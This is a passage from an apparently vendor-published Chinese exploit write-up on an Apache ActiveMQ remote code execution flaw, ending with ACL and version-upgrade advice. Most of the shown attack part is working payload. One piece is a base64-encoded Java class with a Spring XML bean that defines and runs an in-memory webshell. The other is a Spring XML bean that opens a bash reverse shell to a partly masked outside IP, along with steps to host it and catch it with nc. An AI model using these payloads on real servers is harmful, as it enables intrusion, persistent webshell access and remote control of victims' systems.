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">
        </constructor-arg>
    </bean>
    <bean  class="#{T(org.springframework.cglib.core.ReflectUtils).defineClass('MemshellInject1',T(org.springframework.util.Base64Utils).decodeFromString(ClassBase64Str.toString()),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance().test1()}">
    </bean>
</beans>

```

* 左右滑动查看更多



<table><tbody><tr><td width="557" valign="top"><p></p></td></tr></tbody></table>

内存马如果自己要更改路径需要在 idea 中设置 sdk 11。

**3、反弹 shell**


```
pox.xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/121.xxx.xx.xxx/8082 0>&1]]></value>
            </list>
            </constructor-arg>
        </bean>
    </beans>

```

* 左右滑动查看更多  

1. 利用 python 开启 http 服务。





2.nc 进行监听：



  

_**四、修复建议**_

**1、临时缓解方案**


ACL 策略限制访问来源，例如只允许来自特定 IP 地址或地址段的访问请求。

**2、升级修复方案**


```
Apache ActiveMQ >= 5.18.3
Apache ActiveMQ >= 5.17.6
Apache ActiveMQ >= 5.16.7
Apache ActiveMQ >= 5.15.16

```

下载链接：  

```
https://github.com/apache/activemq/tags

```

* 左右滑动查看更多

* * *

**往期回顾**

[](http://mp.weixin.qq.com/s?__biz=MzAwMDgyNTQzMQ==&mid=2247539894&idx=1&sn=7715898a00176f861d005f503cf8efb1&chksm=9ae11d8ead9694986ee9dff792bdce831a6f8fdd092fb72d057967d3f9012bdfaa91ffc4904d&scene=21#wechat_redirect)

[](http://mp.weixin.qq.com/s?__biz=MzAwMDgyNTQzMQ==&mid=2247539457&idx=1&sn=68d05d625840d8689e5b60ca666909d3&chksm=9ae11a39ad96932f697c69d880fe024456da19689aa874b6c12d9f7d247beba24d5e98b4f16f&scene=21#wechat_redirect)

[](http://mp.weixin.qq.com/s?__biz=MzAwMDgyNTQzMQ==&mid=2247539446&idx=1&sn=d48318ec8d4c3e1d3f2c157527bef21f&chksm=9ae11bcead9692d8668051b5f438b782b6e9ce5e5eb426878771e9869267e32807e4081a56ef&scene=21#wechat_redirect)

[](http://mp.weixin.qq.com/s?__biz=MzAwMDgyNTQzMQ==&mid=2247539408&idx=1&sn=04048cf946c281bcf74fe0b8032e5f9b&chksm=9ae11be8ad9692feac0640f04d06e3781259eac8beb3c91e23a7d27862371e8078eb6fed1075&scene=21#wechat_redirect)

[](http://mp.weixin.qq.com/s?__biz=MzAwMDgyNTQzMQ==&mid=2247539397&idx=1&sn=cdee15f1067bd33ee71e11ccbbf70bdc&chksm=9ae11bfdad9692eb94b15ca4e0b3efe72f86b71322ed2f556e953fe97e373fb906f67503ba42&scene=21#wechat_redirect)


  

**关于安恒信息安全服务团队**

**安恒信息安全服务团队由九维安全能力专家构成，其职责分别为：红队持续突破、橙队擅于赋能、黄队致力建设、绿队跟踪改进、青队快速处置、蓝队实时防御，紫队不断优化、暗队专注情报和研究、白队运营管理，以体系化的安全人才及技术为客户赋能。**






---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
